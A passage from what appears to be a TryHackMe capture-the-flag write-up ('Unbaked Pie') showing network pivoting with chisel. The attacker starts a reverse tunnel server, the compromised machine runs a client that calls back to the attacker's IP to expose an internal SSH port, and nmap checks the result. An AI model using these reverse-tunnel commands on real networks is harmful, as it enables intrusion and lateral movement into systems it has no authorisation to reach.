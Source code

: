 I noticed from bash history that the root user is trying to ssh login to ramsey so I have to try pivoting method through `chisel` tool .

From Attacker machine lets setup the server in listener mode →

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Unbaked_Pie]
└─$ ./chisel server --port 8000 --socks5 --reverse
2023/10/31 21:35:59 server: Reverse tunnelling enabled
2023/10/31 21:35:59 server: Fingerprint 3c8nWfdmhbIIsqMYhTM16sluQgFQbA+HSKEHJV1ucFo=
2023/10/31 21:35:59 server: Listening on http://0.0.0.0:8000

# After Connection Establish by Client I get this message on server end ⤵️

2023/10/31 21:42:39 server: session#2: tun: proxy#R:1234=>172.17.0.1:22: Listening
```
{: .nolineno}
{: .nolineno}

Now on victim machine end lets transfer this chisel Tools to this machine through wget tool and then use the client mode →

```bash
 # ./chisel client 10.8.83.156:8000 R:1234:172.17.0.1:22
2023/10/31 16:12:41 client: Connecting to ws://10.8.83.156:8000
2023/10/31 16:12:43 client: Connected (Latency 174.8908ms)
```
{: .nolineno}
{: .nolineno}

Here in above chisel code I ran it , as client mode and given the location to connect to server with `Attackers IP` (10.8.83.156) and `Port Number` (8000) , then `R` represent the default location here it is `localhost` (127.0.0.1) and the `Port Number` (1234) where the port will be morphed to . 

`172.17.0.1` → This IP address is the Pivoting IP address which I need to access from Victim Machine.

`22` → Port Number that will be morphed to 1234 on Attacker Machine which I need to access from Victim Machine.

Now Lets access this ssh service on Attackers Machine →

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Unbaked_Pie]
└─$ nmap 127.0.0.1 -p 1234            
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-31 21:43 IST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00030s latency).

PORT     STATE SERVICE
1234/tcp open  hotline

Nmap done: 1 IP address (1 host up) scanned in 0.09 seconds
```
{: .nolineno}
{: .nolineno}
